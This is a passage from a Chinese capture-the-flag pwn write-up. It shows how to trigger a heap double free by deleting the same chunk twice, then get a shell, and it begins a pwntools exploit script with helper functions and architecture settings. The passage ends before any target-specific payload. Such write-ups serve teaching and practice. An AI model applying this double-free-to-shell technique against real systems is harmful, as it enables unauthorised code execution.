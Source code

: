 [![](assets/1708654729-44dacdce5bfcc91d13890e414b4b2418.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104818-ab499196-d063-1.png)  
最后 free 同一个 chunk，触发 double free，调用 malloc，然后 getshell

```bash
delete(3)
delete(3)
```

[![](assets/1708654729-21c5bc4759a5503df7e0c1fc2defd4ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104846-bbe36928-d063-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
```